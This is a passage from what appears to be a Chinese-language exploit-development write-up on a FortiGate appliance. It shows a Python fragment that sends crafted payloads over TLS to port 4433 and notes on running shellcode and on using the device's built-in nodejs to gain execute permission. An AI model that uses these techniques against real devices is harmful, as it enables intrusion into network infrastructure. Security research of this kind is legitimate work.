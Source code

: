 ```
            b"\r\nUser-Agent: Mozilla/5.0\r\nContent-Type: text/plain;charset=UTF-8\r\nAccept: */*\r\n\r\n"+payload

        _socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        _socket.connect((ip, 4433))
        _default_context = ssl._create_unverified_context()
        _socket = _default_context.wrap_socket(_socket)
        _socket.sendall(data)
        res = _socket.recv(1024)
        print(res)
        if b"HTTP/1.1" not in res:
            print("Error detected")
            print(CL)
            break
    except Exception as e:
        print(e)
        print("Error detected")
        print(CL)
        break

```  
  
这上面直接传到指定路径的问题是第七个参数的传递 如果直接push 会覆盖我们写的shellcode导致程序崩溃 暂时未想到好的解决办法  
  
  
这里执行有两个问题 一没权限 二没指定lib库  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWy211pOPXehgD2zYQXt8dfXaiaicwiapkGJMCbTnBiaPibyMDKFeyV7fn7FxawfKx8CbXYQ5CnbPia5HnA/640?wx_fmt=png&from=appmsg "")  
  
  
这个问题得思考一下怎么解决 在真实环境中直接get一个busybox 好像不够用  因为没有可执行的权限只有读写权限 这里想了很久没想到有什么办法，也用了几个exp尝试赋权 发现要么太麻烦 要么都失败了，最后在ioo0s师傅文章中，学到了思路  
  
### Nodejs shellcode  
  
  
这位师傅用的是Nodejs shellcode，利用飞塔居然内置的nodejs通过测试发现 nodejs xx.js 是可执行的，并且 nodejs 也存在修改文件权限的函数 这里我们先确定一下nodejs确实存在  
  
  
通过执行命令或者直接查找发现是没有的 但是通过node*查找  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWy211pOPXehgD2zYQXt8df8Q4upr29RrXK2RTXQGhvvuD13xTZx8VuXsBuibPMxsJOiaGD5YovwAUA/640?wx_fmt=png&from=appmsg "")  
  
  
传一个js文件测试一下  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWy211pOPXehgD2zYQXt8df7u1FbegYdiagEwXadpQPBs6iaicPr9RgCWxJhaM1BibKTF6y2Y15OCsaDQ/640?wx_fmt=png&from=appmsg "")  
  
  
是可以执行的，因此我们思路就十分清晰了  
  
  
这里搬运一下这位ioo0s师傅的思路  
  